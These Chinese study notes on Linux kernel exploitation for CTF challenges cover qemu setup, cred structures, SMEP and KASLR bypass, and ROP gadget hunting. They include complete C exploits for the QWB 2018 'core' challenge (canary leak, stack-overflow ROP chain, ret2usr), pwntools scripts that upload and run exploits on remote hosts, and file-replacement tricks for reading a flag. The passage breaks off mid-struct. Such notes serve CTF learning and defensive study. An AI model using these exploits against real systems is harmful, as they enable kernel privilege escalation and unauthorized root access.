


kernel入门笔记
基础知识
使用qemu启动内核时常用选项如下：
- -m 指定RAM大小，默认384M
- -kernel 指定内核镜像文件bzImage路径
- -initrd 设置内核启动的内存文件系统
-smp [cpus=]n[,cores=cores][,threads=threads][,dies=dies][,sockets=sockets][,maxcpus=maxcpus]指定用到的核数- -cpu 指定要模拟的处理器架构，可以同时开启一些保护如
- +smap (Supervisor Mode Access Prevention，管理模式访问保护) 禁止内核访问用户空间的数据
- +smep (Supervisor Mode Execution Prevention，管理模式执行保护) 禁止内核访问用户空间的代码
- -nographic 不需要图形界面
- -monitor 对qemu提供的控制台进行重定向，若没有设置可以直接进入控制台
- -append 附加选项
nokalsr关闭随机偏移- console=ttyS0，和
nographic一起使用，启动的界面变成当前终端
- -s，:1234调试端口
- 查看装在驱动
lsmod - 查看所开保护
cat /proc/cpuinfo - 查看内核堆块
cat /proc/slabinfo - 查看
prepare_kernel_cred和commit_creds地址cat /proc/kallsyms | grep prepare_kernel_credcat /proc/kallsyms | grep commit_creds
[84790.796260] GFP_KERNEL: 0xcc0 [84790.796772] GFP_KERNEL_ACCOUNT: 0x400cc0
Kernel
Kernel最主要的功能有两点：
- 控制并与硬件交互
- 提供application能运行的环境
kernel的crash通常会引起重启
Ring Model
Ring0~Ring3 Ring0只给OS使用 Ring3所有程序都可以使用，内层Ring可以随便使用外层Ring的资源
Loadable Kernel Modules(LKMs)
可加载核心模块（或直接称为内核模块）就像运行在内核空间的可执行程序，包括：
- 驱动程序（Device drivers）
- 设备驱动
- 文件系统驱动
- ...
- 内核扩展模块（modules）
LKMs的文件格式和用户态的可执行程序相同 Linux下为ELF，Windows下为exe/dll，mac下位MACH-O
模块可以被单独编译，但不能单独运行。在运行时被链接到内核作为内核的一部分在内核空间运行，这与运行在用户空间的进程不同
模块通常用来实现一种文件系统、一个驱动程序或者其他内核上层的功能
相关指令
insmod 将指定模块加载到内核中
rmmod 从内核中卸载指定模块
lsmod 列出已经加载的模块
modprobe 添加或删除模块，modprobe在加载模块时会查找依赖关系
syscall
系统调用，指用户空间的程序向操作系统内核请求需要更高权限的服务，比如IO操作或进程间通信。系统调用提供用户程序与操作系统间的接口。部分库函数（fscanf，put等IO相关的函数实际上是对系统调用的封装）
ioctl
Name ioctl - control device Synopsis #include <sys/ioctl.h> int ioctl(int d, int request, ...); Description The ioctl() function manipulates the underlying device parameters of special files. In particular, many operating characteristics of character special files (e.g., terminals) may be controlled with ioctl() requests. The argument d must be an open file descriptor. The second argument is a device-dependent request code. The third argument is an untyped pointer to memory. It's traditionally char *argp (from the days before void * was valid C), and will be so named for this discussion. An ioctl() request has encoded in it whether the argument is an in parameter or out parameter, and the size of the argument argp in bytes. Macros and defines used in specifying an ioctl() request are located in the file <sys/ioctl.h>. Return Value Usually, on success zero is returned. A few ioctl() requests use the return value as an output parameter and return a nonnegative value on success. On error, -1 is returned, and errno is set appropriately.
中文版
描述： ioctl()函数处理特殊文件的底层设备参数。 特别是，字符特殊文件(例如，终端)的许多操作特征可以用ioctl()请求来控制。 参数d必须是一个打开的文件描述符。 第二个参数是依赖于设备的请求代码。 第三个参数是一个指向内存的无类型指针。 它是传统的char *argp(在void *是有效的C之前)，在本讨论中将这样命名。 返回值 通常，成功时返回0。 一些ioctl()请求使用返回值作为输出参数，并在成功时返回一个非负值。 在出错时，返回-1，并适当地设置errno。
状态切换
user space to kernel space
当发生系统调用，产生异常,外设产生中断等事件时，会发生用户态到内核态的切换，具体过程如下：
- 通过
swapgs切换GS段寄存器，将GS寄存器值和一个特定位置的值进行交换，目的是保存GS值，同时将该位置的值作为内核执行时的GS值使用 - 将当前栈顶（用户空间栈顶）记录在CPU独占变量区域里，将CPU独占区域里记录的内核栈顶放入rsp/esp
- 通过push保存各寄存器值，代码如下
ENTRY(entry_SYSCALL_64) /* SWAPGS_UNSAFE_STACK是一个宏，x86直接定义为swapgs指令 */ SWAPGS_UNSAFE_STACK /* 保存栈值，并设置内核栈 */ movq %rsp, PER_CPU_VAR(rsp_scratch) movq PER_CPU_VAR(cpu_current_top_of_stack), %rsp /* 通过push保存寄存器值，形成一个pt_regs结构 */ /* Construct struct pt_regs on stack */ pushq $__USER_DS /* pt_regs->ss */ pushq PER_CPU_VAR(rsp_scratch) /* pt_regs->sp */ pushq %r11 /* pt_regs->flags */ pushq $__USER_CS /* pt_regs->cs */ pushq %rcx /* pt_regs->ip */ pushq %rax /* pt_regs->orig_ax */ pushq %rdi /* pt_regs->di */ pushq %rsi /* pt_regs->si */ pushq %rdx /* pt_regs->dx */ pushq %rcx tuichu /* pt_regs->cx */ pushq $-ENOSYS /* pt_regs->ax */ pushq %r8 /* pt_regs->r8 */ pushq %r9 /* pt_regs->r9 */ pushq %r10 /* pt_regs->r10 */ pushq %r11 /* pt_regs->r11 */ sub $(6*8), %rsp /* pt_regs->bp, bx, r12-15 not saved */
- 通过汇编指令判断是否为
x32_abi - 通过系统调用号，跳到全局变量
sys_call_table相应位置继续执行系统调用
kernel space to user space
退出时，流程如下：
- 通过
swapgs恢复GS值 - 通过
sysretq或iretq恢复到用户空间继续执行。如果使用iretq还需要给出用户空间的一些信息（CS,eflags/rflags，esp/rsp等）
struct cred
之前提到kernel记录了进程的权限，更具体的使用cred结构体记录的 每个进程中都有一个cred结构，这个结构保存了该进程的权限等信息（uid，gid等） 如果能修改某个进程的cred，那么也就修改了这个进程的权限
struct cred { atomic_t usage; #ifdef CONFIG_DEBUG_CREDENTIALS atomic_t subscribers; /* number of processes subscribed */ void *put_addr; unsigned magic; #define CRED_MAGIC 0x43736564 #define CRED_MAGIC_DEAD 0x44656144 #endif kuid_t uid; /* real UID of the task */ kgid_t gid; /* real GID of the task */ kuid_t suid; /* saved UID of the task */ kgid_t sgid; /* saved GID of the task */ kuid_t euid; /* effective UID of the task */ kgid_t egid; /* effective GID of the task */ kuid_t fsuid; /* UID for VFS ops */ kgid_t fsgid; /* GID for VFS ops */ unsigned securebits; /* SUID-less security management */ kernel_cap_t cap_inheritable; /* caps our children can inherit */ kernel_cap_t cap_permitted; /* caps we're permitted */ kernel_cap_t cap_effective; /* caps we can actually use */ kernel_cap_t cap_bset; /* capability bounding set */ kernel_cap_t cap_ambient; /* Ambient capability set */ #ifdef CONFIG_KEYS unsigned char jit_keyring; /* default keyring to attach requested * keys to */ struct key __rcu *session_keyring; /* keyring inherited over fork */ struct key *process_keyring; /* keyring private to this process */ struct key *thread_keyring; /* keyring private to this thread */ struct key *request_key_auth; /* assumed request_key authority */ #endif #ifdef CONFIG_SECURITY void *security; /* subjective LSM security */ #endif struct user_struct *user; /* real user ID subscription */ struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */ struct group_info *group_info; /* supplementary groups for euid/fsgid */ struct rcu_head rcu; /* RCU deletion hook */ } __randomize_layout;
内核态函数
- pritnf()->printk()，需要注意的是printk()不一定会把内容显示到终端上，但一定在内核缓冲区里，可以通过
dmesg查看效果 - memcpy()->copy_from_user()/copy_to_user()（用户空间传到内核空间或内核空间传到用户空间）
- malloc()->kmalloc() 内核态的内存分配函数，类似malloc()，但使用的是
slab/slub分配器 - free()->kfree()
另外要注意的是 kernel管理进程，因此kernel也记录了进程的权限。kernel中有两个可以方便的改变权限的函数
int commit_creds(struct cred *new)struct cred* prepare_kernel_cred(struct task_struct* daemon)
执行commit_cred(prepare_kernel_cred(0))即可获得root权限
0表示以0号进程作为参考准备新的credentials
上述涉及的两个函数可以在/proc/kallsyms中查看（root权限）
/ # cat /proc/kallsyms | grep commit_creds ffffffff810a1420 T commit_creds ffffffff81d88f60 R __ksymtab_commit_creds ffffffff81da84d0 r __kcrctab_commit_creds ffffffff81db948c r __kstrtab_commit_creds / # cat /proc/kallsyms | grep prepare_kernel_cred ffffffff810a1810 T prepare_kernel_cred ffffffff81d91890 R __ksymtab_prepare_kernel_cred ffffffff81dac968 r __kcrctab_prepare_kernel_cred ffffffff81db9450 r __kstrtab_prepare_kernel_cred
pwncollege 笔记
privilege escalation 权限提升
commit_creds(prepare_kernel_cred(0))
root下cat /proc/kallsyms | grep xxxx查看内核xxxx模块的装载地址
/opt/linux目录下 vmlinux
沙箱逃逸 详见level8.0 wp
常用命令
解压 unpack.sh
cp initramfs.cpio core/ cd core cpio -idv < ./initramfs.cpio
压缩 pack.sh
#gcc -static -o exp exp.c -s -masm=intel #cp ./exp core/ cd core find . | cpio -o --format=newc > ../rootfs.cpio # find . | sudo cpio -H newc -o --owner root:root > ../rootfs.cpio cd ..
缩小编译文件体积：
musl-gcc -s -static -masm=intel exp.c -o exp
传文件用的脚本
from pwn import * import time, os context.log_level = "debug" # p = process('./run.sh') p = remote("124.70.158.154",60001) os.system("tar -czvf exp.tar.gz ./exploit") os.system("base64 exp.tar.gz > b64_exp") f = open("./b64_exp", "r") p.recv() # p.sendline("cd ~") p.recvuntil("~ $") p.sendline("echo '' > b64_exp;") count = 1 while True: print('now line: ' + str(count)) line = f.readline().replace("\n","") if len(line)<=0: break cmd = "echo '" + line + "' >> b64_exp;" # print (cmd) p.sendline(cmd) # send lines # sleep(0.1) #p.recv() p.recvuntil("~ $") count += 1 f.close() p.sendlineafter("~ $", "base64 -d b64_exp > exp.tar.gz;") p.sendlineafter("~ $", "tar -xzvf exp.tar.gz") p.sendlineafter("~ $", "chmod +x ./exploit;") p.sendlineafter("~ $", "./exploit") p.interactive()
一个脚本
from pwn import * #context.update(log_level='debug') HOST = "10.112.100.47" PORT = 1717 USER = "pwn" PW = "pwn" def compile(): log.info("Compile") os.system("musl-gcc -w -s -static -o3 oob.c -o exp") def exec_cmd(cmd): r.sendline(cmd) r.recvuntil("$ ") def upload(): p = log.progress("Upload") with open("exp", "rb") as f: data = f.read() encoded = base64.b64encode(data) r.recvuntil("$ ") for i in range(0, len(encoded), 300): p.status("%d / %d" % (i, len(encoded))) exec_cmd("echo \"%s\" >> benc" % (encoded[i:i+300])) exec_cmd("cat benc | base64 -d > bout") exec_cmd("chmod +x bout") p.success() def exploit(r): compile() upload() r.interactive() return if __name__ == "__main__": if len(sys.argv) > 1: session = ssh(USER, HOST, PORT, PW) r = session.run("/bin/sh") exploit(r) else: r = process("./startvm.sh") print util.proc.pidof(r) pause() exploit(r)
找gadget
ropper -f ./vmlinux --nocolor > ./rop_ropper.txt ROPgadget --binary ./vmlinux > ./rop_ROP.txt
找不到的时候用pwntools
>>> from pwn import* >>> context.arch='amd64' >>> e = ELF('./vm') [*] '/home/ayoung/ciscn2023/ChatRoom/vm' Arch: amd64-64-little RELRO: No RELRO Stack: No canary found NX: NX disabled PIE: No PIE (0xffffffff81000000) RWX: Has RWX segments >>> hex(e.search(asm('iretq')).__next__()) '0xffffffff81044c9e'
还找不到（有时候可能extract不出来），用gdb找
pwndbg> search -2 0xc35f Searching for value: b'_\xc3' <explored> 0xffff8bf44f23a5ad 0x162444b60f90c35f <explored> 0xffff8bf44f23af5a 0x508d00401f0fc35f <explored> 0xffff8bf44f23bd31 0x480000441f0fc35f <explored> 0xffff8bf44f23cbc5 0x841f0f66c35f <explored> 0xffff8bf44f23e7fe 0x48cf74e7394dc35f <explored> 0xffff8bf44f23f566 0x841f0fc35f <explored> 0xffff8bf44f23fb87 0x801f0fc35f <explored> 0xffffffff94690c80 0xccccccccccccc35f <explored> 0xffffffff947b6c35 0x758948ff3101c35f <explored> 0xffffffff947b6c7f 0xb9f3c2c74801c35f <explored> 0xffffffff94abee7d 0x6666ccccccccc35f <explored> 0xffffffff94df6eed 0xcccccccc003ec35f <explored> 0xffffffff94e1691d 0xc7488febffffc35f <explored> 0xffffffff94ff3d7d 0xccccc35dfffcc35f ^CQuit pwndbg> x/2i 0xffff8bf44f23a5ad 0xffff8bf44f23a5ad: pop rdi 0xffff8bf44f23a5ae: ret
extract-vmlinux
#!/bin/sh # SPDX-License-Identifier: GPL-2.0-only # ---------------------------------------------------------------------- # extract-vmlinux - Extract uncompressed vmlinux from a kernel image # # Inspired from extract-ikconfig # (c) 2009,2010 Dick Streefland <dick@streefland.net> # # (c) 2011 Corentin Chary <corentin.chary@gmail.com> # # ---------------------------------------------------------------------- check_vmlinux() { # Use readelf to check if it's a valid ELF # TODO: find a better to way to check that it's really vmlinux # and not just an elf readelf -h $1 > /dev/null 2>&1 || return 1 cat $1 exit 0 } try_decompress() { # The obscure use of the "tr" filter is to work around older versions of # "grep" that report the byte offset of the line instead of the pattern. # Try to find the header ($1) and decompress from here for pos in `tr "$1\n$2" "\n$2=" < "$img" | grep -abo "^$2"` do pos=${pos%%:*} tail -c+$pos "$img" | $3 > $tmp 2> /dev/null check_vmlinux $tmp done } # Check invocation: me=${0##*/} img=$1 if [ $# -ne 1 -o ! -s "$img" ] then echo "Usage: $me <kernel-image>" >&2 exit 2 fi # Prepare temp files: tmp=$(mktemp /tmp/vmlinux-XXX) trap "rm -f $tmp" 0 # That didn't work, so retry after decompression. try_decompress '\037\213\010' xy gunzip try_decompress '\3757zXZ\000' abcde unxz try_decompress 'BZh' xy bunzip2 try_decompress '\135\0\0\0' xxx unlzma try_decompress '\211\114\132' xy 'lzop -d' try_decompress '\002!L\030' xxx 'lz4 -d' try_decompress '(\265/\375' xxx unzstd # Finally check for uncompressed images or objects: check_vmlinux $img # Bail out: echo "$me: Cannot find vmlinux." >&2
调试脚本
set architecture i386:x86-64 file ~/vmlinux b *() target remote :1234
上传
from pwn import * ch = b'/ # ' # 根据题目情况更改 io = remote("106.14.121.29", 32482) # io.sendlineafter(b"buildroot login: ",b"root") # io.sendlineafter(ch,b"ls") # io = process(['/bin/bash','./praymoon/run.sh']) perlen = 500 def upload(lname, rname): print("[*] uploading %s ..." % lname) payload = b64e(open(lname,'rb').read()) a = len(payload) // perlen for i in range(a + 1): print("[+] %d/%d" % (i,a)) s = 'echo "' + payload[i*(perlen):(i+1)*perlen] + '" >> %s.b64' % rname io.sendlineafter(ch,s.encode('utf-8')) cmd = 'cat %s.b64 | base64 -d > %s' % (rname,rname) io.sendlineafter(ch,cmd.encode('utf-8')) # io.sendline("ls") upload("./exp","/tmp/exp") # 示例用法 context(log_level='debug') io.sendlineafter(ch,b"chmod +x /tmp/exp") io.sendlineafter(ch,b"/tmp/exp") io.interactive() #io.sendlineafter("/ # ",b"cat /flag") # while 1: # t = io.recvline() # print(t.replace(b"\r",b'').decode('utf-8')) # io.send(input().encode('utf-8'))
musl编译
编userfaultfd
musl-gcc exp.c --static -lpthread -idirafter /usr/include/ -idirafter /usr/include/x86_64-linux-gnu/ -o exp -masm=intel
smep相关
内核代码中通过cr4寄存器的值来判断系统是否开启了smep，cr4寄存器各个位的含义如下表所示：
bit label description 0 vme virtual 8086 mode extensions 1 pvi protected mode virtual interrupts 2 tsd time stamp disable 3 de debugging extensions 4 pse page size extension 5 pae physical address extension 6 mce machine check exception 7 pge page global enable 8 pce performance monitoring counter enable 9 osfxsr os support for fxsave and fxrstor instructions 10 osxmmexcpt os support for unmasked simd floating point exceptions 11 umip user mode instruction prevention (#GP on SGDT, SIDT, SLDT, SMSW, and STR instructions when CPL > 0) 13 vmxe virtual machine extensions enable 14 smxe safer mode extensions enable 17 pcide pcid enable 18 osxsave xsave and processor extended states enable 20 smep supervisor mode executions protection enable 21 smap supervisor mode access protection enable
所以如果内核开启了smep的话，能直接想到的就是通过内核中的代码将该位置0，关闭smep后，后面再执行ret2usr就比较方便了。
关闭 smep 保护，常用一个固定值 0x6f0，即 mov cr4, 0x6f0。可以在内核中寻找能组成 mov cr4, 0x6f0的gadget来关闭smep，如下所示：
pop rdi; ret; 0x6f0; mov cr4, rdi; pop rbp; ret; 0
非预期
mv bin bin1 /bin1/mkdir bin /bin1/chmod 777 bin /bin1/echo "/bin1/cat /flag" > /bin/poweroff /bin1/chmod 777 /bin/poweroff exit
monitor
migrate "exec:cat flag 1>&2"
读文件绕kaslr
/sys/kernel/notes

kallsyms全0
echo 0 > /porc/sys/kernel/kptr_restrict
或者启动项
-append "xxx sysctl.kernel.kptr_restrict=0"
FGKASLR
简介
鉴于 KASLR 的不足，有研究者实现了 FGKASLR。FGKASLR 在 KASLR 基地址随机化的基础上，在加载时刻，以函数粒度重新排布内核代码。
实现
FGKASLR 的实现相对比较简单，主要在两个部分进行了修改。目前，FGKASLR 只支持 x86_64 架构。
编译阶段
FGKASLR 利用 gcc 的编译选项 -ffunction-sections 把内核中不同的函数放到不同的 section 中。 在编译的过程中，任何使用 C 语言编写的函数以及不在特殊输入节的函数都会单独作为一个节；使用汇编编写的代码会位于一个统一的节中。
编译后的 vmlinux 保留了所有的节区头（Section Headers），以便于知道每个函数的地址范围。同时，FGKASLR 还有一个重定位地址的扩展表。通过这两组信息，内核在解压缩后就可以乱序排列函数。
最后的 binary 的第一个段包含了一个合并节（由若干个函数合并而成）、以及若干其它单独构成一个节的函数。
加载阶段
在解压内核后，会首先检查保留的符号信息，然后寻找需要随机化的 .text.* 节区。其中，第一个合并的节区 (.text) 会被跳过，不会被随机化。后面节区的地址会被随机化，但仍然会与 .text 节区相邻。同时，FGKASLR 修改了已有的用于更新重定位地址的代码，不仅考虑了相对于加载地址的偏移，还考虑了函数节区要被移动到的位置。
为了隐藏新的内存布局，/proc/kallsyms 中符号使用随机的顺序来排列。在 v4 版本之前，该文件中的符号按照字母序排列。
通过分析代码，我们可以知道，在 layout_randomized_image 函数中计算了最终会随机化的节区，存储在 sections 里。
PXN
PXN即PrivilegedExecute-Never的缩写，内核状态下，系统无法直接执行用户态代码
绕过：内核ROP
ROP
2018 qwb core
泄露canary+栈溢出提权着陆用户态
前期
#!/bin/sh mount -t proc proc /proc mount -t sysfs sysfs /sys mount -t devtmpfs none /dev /sbin/mdev -s mkdir -p /dev/pts mount -vt devpts -o gid=4,mode=620 none /dev/pts chmod 666 /dev/ptmx cat /proc/kallsyms > /tmp/kallsyms echo 1 > /proc/sys/kernel/kptr_restrict echo 0 > /proc/sys/kernel/dmesg_restrict ifconfig eth0 up udhcpc -i eth0 ifconfig eth0 10.0.2.15 netmask 255.255.255.0 route add default gw 10.0.2.2 insmod /core.ko poweroff -d 120 -f & setsid /bin/cttyhack setuidgid 1000 /bin/sh echo 'sh end!\n' umount /proc umount /sys poweroff -d 0 -f
前面是在创建设备驱动，挂载设备，之后将kallsyms的内容拷贝到/tmp/kallsyms文件中（这就意味着我们可以以普通用户的身份访问符号信息，也就是能够找到地址，可以用来得到prepare_kernel_cred和commit_cred的地址），kptr_restrict为1表示root用户可以读取内核符号地址而普通用户不能。同理dmesg_restrict为1表示root用户可以查看dmesg信息而普通用户不能。
后面是设置网卡和路由信息，启动了一个uid为1000的普通用户所在的shell，poweroff这行是设置120s定时关机，我们为了避免干扰做题先注释掉，同样为了之后能看text段的基址我们把uid改成0，即root用户。
最后的insmod插入了一个内核模块core.ko，这个就是本题的漏洞模块
内置压缩脚本如下
find . -print0 \ | cpio --null -ov --format=newc \ | gzip -9 > $1
所以虽然实际上看到的是.cpio结尾的文件，但实际上解包的时候要先解zip，再改称cpio结尾，最后再解cpio得到文件系统
（可以先用file确定一下文件类型）
exp
开了kaslr，没开smep。题目本身的话就是首先利用类似数组越界的东西泄露canary，然后利用输入负数的方法绕过检查，造成栈溢出，栈溢出通过rop执行提权，最后返回用户态执行system("/bin/sh")
#include <stdio.h> #include <stdlib.h> #include <unistd.h> #include <fcntl.h> #include <stropts.h> #include <sys/wait.h> #include <sys/stat.h> #include <string.h> size_t user_cs,user_ss,user_rflags,user_sp; size_t commit_creds=0,prepare_kernel_cred=0; size_t vmlinux_base; size_t raw_vmlinux_base = 0xffffffff81000000; size_t prdi_r = 0xffffffff81000b2f; size_t prsi_r = 0xffffffff810011d6; size_t prdx_r = 0xffffffff810a0f49; size_t prcx_r = 0xffffffff81021e53; size_t swapgs_popfq_r = 0xffffffff81a012da; size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a; size_t ireq_ret = 0xffffffff81050ac2; void save_status() { __asm__( "mov user_cs,cs;" "mov user_ss,ss;" "mov user_sp,rsp;" "pushf;" "pop user_rflags;" ); puts("[*] status has been saved."); } size_t getvmlinuxbase(){ FILE *fd_vm = fopen("/tmp/kallsyms", "r"); if(!fd_vm){ puts("open kallsyms failed"); } char buf[0x30] = {0}; while(fgets(buf, 0x30, fd_vm)){ if(commit_creds && prepare_kernel_cred) return 0; if(strstr(buf, "commit_creds") && !commit_creds){ char hex[0x20] = {0}; strncpy(hex, buf, 0x10); sscanf(hex, "%llx", (long long*)&commit_creds); vmlinux_base = commit_creds - 0x9c8e0; printf("[*]vmlinux_base ==> 0x%llx\n", *(long long*)&vmlinux_base); } if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred){ char hex[0x20] = {0}; strncpy(hex, buf, 0x10); sscanf(hex, "%llx", (long long*)&prepare_kernel_cred); vmlinux_base = prepare_kernel_cred-0x9cce0; printf("[*]vmlinux_base ==> 0x%llx\n", *(long long*)&vmlinux_base); } } } void getshell(){ if(!getuid()){ puts("[*]Root now"); system("/bin/sh"); } else{ puts("not root yet"); } } int main() { save_status(); getvmlinuxbase(); printf("[*]commit_creds: 0x%llx\n[*]prepare_kernel_cred: 0x%llx\n", (long long)commit_creds, (long long)prepare_kernel_cred); int fd = open("/proc/core", 2); size_t rop[0x500]; char ca[0x50]; memset((char*)rop, 0, 0x500); memset(ca, 0, 0x50); ioctl(fd, 0x6677889C, 0x40); ioctl(fd, 0x6677889B, ca); size_t canary = *(long long*)ca; printf("canary: 0x%llx\n", (long long)canary); size_t offset = vmlinux_base - raw_vmlinux_base; int i = 0; for(i = 0 ; i < 8; i++) rop[i] = 0; rop[i++] = canary; rop[i++] = 0; rop[i++] = prdi_r+offset; rop[i++] = 0; rop[i++] = prepare_kernel_cred; rop[i++] = prdx_r+offset; rop[i++] = prcx_r+offset; rop[i++] = mov_rdi_rax_call_rdx+offset; rop[i++] = commit_creds; rop[i++] = swapgs_popfq_r+offset; rop[i++] = 0; rop[i++] = ireq_ret+offset; rop[i++] = (size_t)getshell; rop[i++] = user_cs; rop[i++] = user_rflags; rop[i++] = user_sp; rop[i++] = user_ss; write(fd, rop, 0x500); ioctl(fd, 0x6677889A, 0xffffffffffff0000 | (0x100)); close(fd); return 0; }
ret2usr
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作
执行存储在用户态空间中的函数 例题还是qwb2018 core kernel下rop，返回到用户态地址执行提权函数，然后继续rop返回用户空间
#include <stdio.h> #include <stdlib.h> #include <unistd.h> #include <fcntl.h> #include <stropts.h> #include <sys/wait.h> #include <sys/stat.h> #include <string.h> size_t user_cs,user_ss,user_rflags,user_sp; size_t commit_creds=0,prepare_kernel_cred=0; size_t vmlinux_base; size_t raw_vmlinux_base = 0xffffffff81000000; size_t prdi_r = 0xffffffff81000b2f; size_t prsi_r = 0xffffffff810011d6; size_t prdx_r = 0xffffffff810a0f49; size_t prcx_r = 0xffffffff81021e53; size_t swapgs_popfq_r = 0xffffffff81a012da; size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a; size_t ireq_ret = 0xffffffff81050ac2; void save_status() { __asm__( "mov user_cs,cs;" "mov user_ss,ss;" "mov user_sp,rsp;" "pushf;" "pop user_rflags;" ); puts("[*] status has been saved."); } size_t BeRoot(){ void* (*func1)(int) = prepare_kernel_cred; void* (*func2)(void*) = commit_creds; (*func2)((*func1)(0)); } size_t getvmlinuxbase(){ FILE *fd_vm = fopen("/tmp/kallsyms", "r"); if(!fd_vm){ puts("open kallsyms failed"); } char buf[0x30] = {0}; while(fgets(buf, 0x30, fd_vm)){ if(commit_creds && prepare_kernel_cred) return 0; if(strstr(buf, "commit_creds") && !commit_creds){ char hex[0x20] = {0}; strncpy(hex, buf, 0x10); sscanf(hex, "%llx", (long long*)&commit_creds); vmlinux_base = commit_creds - 0x9c8e0; printf("[*]vmlinux_base ==> 0x%llx\n", *(long long*)&vmlinux_base); } if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred){ char hex[0x20] = {0}; strncpy(hex, buf, 0x10); sscanf(hex, "%llx", (long long*)&prepare_kernel_cred); vmlinux_base = prepare_kernel_cred-0x9cce0; printf("[*]vmlinux_base ==> 0x%llx\n", *(long long*)&vmlinux_base); } } } void getshell(){ if(!getuid()){ puts("[*]Root now"); system("/bin/sh"); } else{ puts("not root yet"); } } int main() { save_status(); getvmlinuxbase(); printf("[*]commit_creds: 0x%llx\n[*]prepare_kernel_cred: 0x%llx\n", (long long)commit_creds, (long long)prepare_kernel_cred); int fd = open("/proc/core", 2); size_t rop[0x500]; char ca[0x50]; memset((char*)rop, 0, 0x500); memset(ca, 0, 0x50); ioctl(fd, 0x6677889C, 0x40); ioctl(fd, 0x6677889B, ca); size_t canary = *(long long*)ca; printf("canary: 0x%llx\n", (long long)canary); size_t offset = vmlinux_base - raw_vmlinux_base; int i = 0; for(i = 0 ; i < 8; i++) rop[i] = 0; rop[i++] = canary; rop[i++] = 0; rop[i++] = BeRoot; rop[i++] = swapgs_popfq_r+offset; rop[i++] = 0; rop[i++] = ireq_ret+offset; rop[i++] = (size_t)getshell; rop[i++] = user_cs; rop[i++] = user_rflags; rop[i++] = user_sp; rop[i++] = user_ss; write(fd, rop, 0x500); ioctl(fd, 0x6677889A, 0xffffffffffff0000 | (0x100)); close(fd); return 0; }
bypass smep
smep即Supervisor Mode Execution Prevention，管理模式执行保护，禁止内核访问用户空间的代码
是内核的一种保护措施，作用是当 CPU 处于 ring0 模式时，执行 用户空间的代码会触发页错误；这个保护在 arm 中被称为 PXN。
是否开启这个保护取决于rc4寄存器的值，第20位是1保护开启，0关闭 我们一般只需要给它改成一个固定值0x6f0就可以关闭
用之前Kernel UAF的babydriver进行演示
思路
本题有uaf
再open("/dev/ptmx", O_RDWR)时会分配这样一个结构体tty_struct
struct tty_struct { int magic; struct kref kref; struct device *dev; struct tty_driver *driver; const struct tty_operations *ops; int index; /* Protects ldisc changes: Lock tty not pty */ struct ld_semaphore ldisc_sem; struct tty_ldisc *ldisc; struct mutex atomic_write_lock; struct mutex legacy_mutex; struct mutex throttle_mutex; struct rw_semaphore termios_rwsem; struct mutex winsize_mutex; spinlock_t ctrl_lock; spinlock_t flow_lock; /* Termios values are protected by the termios rwsem */ struct ktermios termios, termios_locked; struct termiox *termiox; /* May be NULL for unsupported */ char name[64]; struct pid *pgrp; /* Protected by ctrl lock */ struct pid *session; unsigned long flags; int count; struct winsize winsize; /* winsize_mutex */ unsigned long stopped:1, /* flow_lock */ flow_stopped:1, unused:BITS_PER_LONG - 2; int hw_stopped; unsigned long ctrl_status:8, /* ctrl_lock */ packet:1, unused_ctrl:BITS_PER_LONG - 9; unsigned int receive_room; /* Bytes free for queue */ int flow_change; struct tty_struct *link; struct fasync_struct *fasync; wait_queue_head_t write_wait; wait_queue_head_t read_wait; struct work_struct hangup_work; void *disc_data; void *driver_data; spinlock_t files_lock; /* protects tty_files list */ struct list_head tty_files; #define N_TTY_BUF_SIZE 4096 int closing; unsigned char *write_buf; int write_cnt; /* If the tty has a pending do_SAK, queue it here - akpm */ struct work_struct SAK_work; struct tty_port *port; } __randomize_layout;
在tty_struct结构体中有这样一个结构体tty_operations
struct tty_operations { struct tty_struct * (*lookup)(struct tty_driver *driver, struct file *filp, int idx); int (*install)(struct tty_driver *driver, struct tty_struct *tty); void (*remove)(struct tty_driver *driver, struct tty_struct *tty); int (*open)(struct tty_struct * tty, struct file * filp); void (*close)(struct tty_struct * tty, struct file * filp); void (*shutdown)(struct tty_struct *tty); void (*cleanup)(struct tty_struct *tty); int (*write)(struct tty_struct * tty, const unsigned char *buf, int count); int (*put_char)(struct tty_struct *tty, unsigned char ch); void (*flush_chars)(struct tty_struct *tty); int (*write_room)(struct tty_struct *tty); int (*chars_in_buffer)(struct tty_struct *tty); int (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg); long (*compat_ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg); void (*set_termios)(struct tty_struct *tty, struct ktermios * old); void (*throttle)(struct tty_struct * tty); void (*unthrottle)(struct tty_struct * tty); void (*stop)(struct tty_struct *tty); void (*start)(struct tty_struct *tty); void 